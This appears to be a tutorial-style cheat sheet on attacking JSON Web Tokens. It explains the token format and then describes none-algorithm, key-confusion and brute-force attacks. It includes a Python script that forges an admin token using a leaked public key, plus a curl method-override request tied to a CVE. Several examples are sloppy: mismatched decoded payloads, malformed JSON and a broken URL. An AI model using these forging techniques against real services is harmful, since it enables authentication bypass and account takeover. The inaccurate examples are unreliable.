 # Hacking Json Web Tokens

### What is JWT (Json Web Token)

After Login we get a session ID. Then the server checks that session id and which user contains it.
Then provides data by fetching from database

Now a days modern architectures are changed. Theere are multiple web servers managed by a 
single load balancer. So what if one clinet got his session id from server A
and the next request was sent to server B. Server won't be able to identify that user.
That's why JWT was intrduced.

Instead of fetching all data from database we can store it in user's local storage.
With a expiration time using JWT. It is signed with server signature so that user can't change the data inside the token without knowing the secret key.


### How JWT Works
- User Logged In 
- Now Server Will Fetch User's Data From Databse
- Then Server Creates A Secure JWT Token. And Assigns To The User.
- Now From The Client Side The Entire Data Will Be Transferred By Authorization Header to the server
- It is transferred in Base64 Encoded Format

## JWT Build Algorithm

It is a Json Format Based Token Which Contains 3 Parts. 
Encoded in base 64 Separated by .
- Header
- Payload
- Signature

Ex : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c

Header : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9
```python
base64enc[{
"algo":"HS256",
"typ":"JWT"
}]
```
- alg - which algorithm is used to create the signature Ex : HS256,RS256,PS256

Payload : eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ
```python
base64enc[{
"firstname:"sss",
"lastname":"tmss",
"userid":"234"
}] 
```

Signature : SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```python
HMACSHA256{
base64enc(header).base64enc(payload).secret(key)
}
```
- Request Recieved To Server 
```json
jwt : eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c
```
- Server Took Payload and header 
- Created A Hash Using Secret Key
- Verfied If Recieved Secret Key Is The Same What He assigned to user when he logged in
### Seccurity Conserns In JWT

- Confidential Data Stored In JWT
- No Encryption Used In Transport Layer /On Wireshark 
- JWT Hijacking If Stored In Cookie
- Algo = None // Don't Validate The Signature
- Secret Key Bruteforcing


### Bugs
1 - None Algorith Attack
Change algo to none 
```python
{
  "alg": "None",
  "typ": "JWT"
}
{
  "alg": None,
  "typ": "JWT"
}
```
And try to perform action
Change algo to none + Remove All Data from Signature field
```python
{
  "alg": "None",
  "typ": "JWT"
}
# Remove Entire Signature Part Or Leave It Blank
```
2 - Algo Change
RSA256 - Uses public key to verify token if we have that public key exposed we might be able to do this
Create own HS256 Signed JWT With Exposed public key
now The Server will Think The public Key is secret key and logs you in
```python
### JWT Token Generater
import hmac
import hashlib
import base64

#Paste the file with the key 
file=open('public.pem')

key = file.read()

#Paste your header and payload here
header = '{"alg":"HS256"}'
payload = '{"name":"admin"}'

#Creating encoded header
encodedHBytes = base64.urlsafe_b64encode(header.encode("utf-8"))
encodedHeader = str(encodedHBytes, "utf-8").rstrip("=")

#Creating encoded payload
encodedPBytes = base64.urlsafe_b64encode(payload.encode("utf-8"))
encodedPayload = str(encodedPBytes, "utf-8").rstrip("=")

#Concatenating header and payload
token = (encodedHeader + "." + encodedPayload)

#Creating signature
sig = base64.urlsafe_b64encode(hmac.new(bytes(key, "UTF-8"),token.encode('utf-8'),hashlib.sha256).digest()).decode('UTF-8').rstrip("=")

print(token + "." + sig)
```
How we found .pem in real senario. We find in leaking through jwk.json
```python
https://{yourDomain}/.well-known/jwks.json
```
or waybackurl's jwk.json file or .pem url

3 - Change Signature section complete 
Or Leave it blank

4 BruteForce HS256 
[jwtbrute](https://github.com/jmaxxz/jwtbrute)

## CVE-2023-30845
```bash
curl http:example.com/api -X POST -H 'X-HTTP-Method-Override: PUT' \ 
-H 'Content-Type: application/json' --data '{"username":"xyz"}'
```
###EXPLOITS
- None Algorithm
- Weak Secret
- Key Confusion
- Kid Parameter Injection
- JKU Parameter Injection
